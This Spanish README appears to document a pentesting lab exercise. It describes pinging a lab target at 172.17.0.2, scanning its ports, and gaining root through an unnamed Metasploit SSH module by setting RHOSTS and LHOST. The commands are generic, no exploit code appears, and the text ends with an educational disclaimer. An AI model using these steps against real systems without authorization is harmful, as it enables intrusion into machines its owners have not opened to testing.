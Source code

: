 # Lab de Pentesting: Acceso root directo mediante explotación de SSH máquina ChocolateFire

Este repositorio documenta el proceso utilizado para obtener acceso root a una máquina mediante explotación del servicio SSH con Metasploit.

---

## Resumen

El objetivo fue identificar los servicios activos, detectar una posible vulnerabilidad en SSH y aprovecharla utilizando un módulo de Metasploit que permite la ejecución remota directa como usuario root.

---

## Herramientas utilizadas

- `ping`
- `nmap` 
- `msfconsole`

---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa en la red.

---

### 2. Escaneo de puertos
## Script de escaneo

El script utilizado para escanear los puertos está disponible en:

👉 [`escaneo.sh`](./scriptPuertosLimpios.sh)


![puertos](screenshots/puertos.PNG)

---

### 3. Explotación del servicio SSH con Metasploit

Iniciamos Metasploit:

    msfconsole

Buscamos módulos relacionados con SSH. Las opciones 0 y 4 se consideraron útiles. Se eligió la opción 4.

![metasploit](screenshots/metasploit.PNG)

Configuramos los parámetros:

    use 4
    set RHOSTS 172.17.0.2
    set LHOST (Mi IP)
    run

![root](screenshots/root.PNG)


---

### 4. Acceso root exitoso

La explotación fue exitosa y se obtuvo acceso directo como **usuario root**.

---

## Resultados finales

- Acceso root directo conseguido mediante Metasploit.
- Explotación exitosa de una vulnerabilidad crítica en el servicio SSH.

---

## Consideraciones

Este laboratorio es únicamente para fines educativos y de práctica en entornos controlados. No debe aplicarse en sistemas reales sin autorización expresa.

